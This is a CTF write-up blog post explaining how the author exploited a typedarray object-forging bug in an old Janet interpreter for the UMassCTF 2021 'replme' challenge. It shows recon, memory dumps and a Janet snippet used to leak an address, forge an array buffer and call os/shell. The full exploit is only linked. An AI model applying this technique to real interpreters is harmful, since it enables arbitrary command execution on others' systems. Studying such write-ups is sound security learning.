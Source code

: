 ```yaml
---
layout: post
title: UMassCTF 2021 - replme [pwn]
author: rick2600
tags: [pwn, interpreter, janet]
---
```


 * Competition: [UMass CTF 2021](https://ctf.umasscybersec.org/)
 * Challenge Name: replme
 * Type: pwn
 * Points: 500 pts
 * Description: 
 > Description: I found this new programming language and wanted people to be able to try it out. http://34.72.244.178:8085


## Intro
I didn't play the CTF, but the replme task took my attention. The challenge was about exploiting the interpreter for [Janet Language](https://janet-lang.org/). As I like interpreters and I had written some exploits for other interpreters in the past, I decided to took a look at this task after the CTF.

Running the interpreter we can see the version.

```
./janet 
Janet 1.1.0-dev-6887dd05  Copyright (C) 2017-2019 Calvin Rose
janet:0:> 

```

## Recon
```
./janet: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped

Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✓ 
RelRO                         : Partial
```

## Vulnerability

Looking for known vulnerabilites affecting this version, I found an [issue](https://github.com/janet-lang/janet/issues/142) related to "**typedarray allowing to create arbitrary objects**". The interpreter uses the technique called "NaN Boxing" to represent the objects.

### Key concepts

* **NaN Boxing** - It is a technique that uses properties of a IEEE754 standard to represent several values/objects;
* **TypedArray** - Array-like objects that provide a mechanism for reading and writing raw binary data in memory buffers;
* **Buffer** -  A buffer is an object representing a chunk of data. It is a data type that is used to represent a generic, fixed-length binary data buffer.
* **View** - It is a low-level interface that provides a getter/setter API to read and write arbitrary data to the buffer. 

You can read more about these concepts [here](https://craftinginterpreters.com/optimization.html#nan-boxing) and [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Typed_arrays).

### POC
From the poc we see an artificial **cfunction** being created and executed. We can forge the address to be executed as a **cfunction**, but how to abuse it to execute system(cmd) or related function if we have no idea where these functions are in memory? It worth to say that there's a **os/shell** function but the challenge blacklist it. So we need to find a way to execute it.

## Leak

The first thing I thought was to try to leak the address of any **cfunction** directly, for example **print (cfun\_io\_print)** and calculate the offset to **os/shell (os_shell)**. I didn't find a easy way to do this (to be sincere I didn't investigate much, neither from experiments nor from janet documentation). From my experiments I saw that if I tried to execute an array as function I could get its address. I used this approach to leak things.

```
janet:0:> (var array @[])
@[]
janet:16:> (array)
error: <array 0x5555555E30A0> called with arity 0, expected 1
  in _thunk [repl] (tailcall) at (17:23)

```

The language has a **try** function that helps to get this error as string. I wrote a function to convert a hex string to number. Again... I didn't investigate much the documentation to see if I could use a builtin function to make this conversion, but it was fun to play a bit with the syntax anyway ;).

So... My idea was...

1. Create an array and insert print into it;
2. Leak the array address;
3. Forge an object using the bug that allowed me to read raw content of this array or adjacent memory.

I could try to forge an **array buffer (tarray/buffer)** using &array+n and create a view to read data from this array buffer.

Let's see how a regular array and a array buffer is represented in memory.

### Code

```lisp
(var buffer (tarray/buffer 16))
(var view  (tarray/new :uint32  4 1 0 buffer))

(set (view 0) 0x11111111) 
(set (view 1) 0x22222222) 
(set (view 2) 0x33333333) 
(set (view 3) 0x44444444) 

(var array @[print buffer])
```

### Memory
```
# array address
gef➤  x/4gx 0x555555621110
0x555555621110:	0x00007fff00000003	0x00005555556209d0
0x555555621120:	0x0000000200000002	0x0000555555621140

# array data
gef➤  x/4gx 0x0000555555621140
0x555555621140:	0xfffed5555556f210	0xffff5555555c3530
0x555555621150:	0x0000046c00000452	0x0000000000000041

# array[0] is &cfun_io_print
gef➤  print &cfun_io_print
$4 = (<text variable, no debug info> *) 0x55555556f210 <cfun_io_print>

# array[1] is &buffer
gef➤  x/4gx 0xffff5555555c3530 & 0x7fffffffffff
0x5555555c3530:	0x00005555555ee120	0x0000000000000010
0x5555555c3540:	0xfff8800000000000	0x0000000000000031

# buffer data
gef➤  x/4wx 0x00005555555ee120
0x5555555ee120:	0x11111111	0x22222222	0x33333333	0x44444444
```

So... To forge an useful fake array buffer for our goal, we need:

1. An address relative to &array;
2. This address must point to [another address, size]
3. We need to proper encode it as NaN Boxed (ex.: `0x00005555555ee120` to `0xffff5555555c3530`)]

The &array+0x18 seems to be perfect.
```
gef➤  x/2gx 0x555555621110 + 0x18
0x555555621128:	0x0000555555621140	0x0000046c00000452
gef➤  x/2gx 0x0000555555621140
0x555555621140:	0xfffed5555556f210	0xffff5555555c3530
```

Forging this address as an array buffer and attaching an uint32 view to it allow us to know where cfun_io_print resides is in memory and consequently os_shell.

## Exploit

### Summarizing
1. Create an array and insert **print** in it;
2. Use this array to trigger an exception;
3. Get array address from the exception;
4. Forge a fake array buffer to read raw data from the array;
5. Get the address of cfun_io_print and calculate offset to os_shell;
6. Forge c_function to call os_shell;
7. Pwn

Full exploit [here](https://gist.github.com/rick2600/f92999a06dd4bf45832ba4633f6a6e87).

This exploit works for both replme (16 solves) and replem2 (4 solves)

![replme](https://user-images.githubusercontent.com/2582199/112950609-da208280-9110-11eb-8452-4dee6e32152a.png)

![replme2](https://user-images.githubusercontent.com/2582199/112950630-e0166380-9110-11eb-85cb-33a9e4bb320a.png)



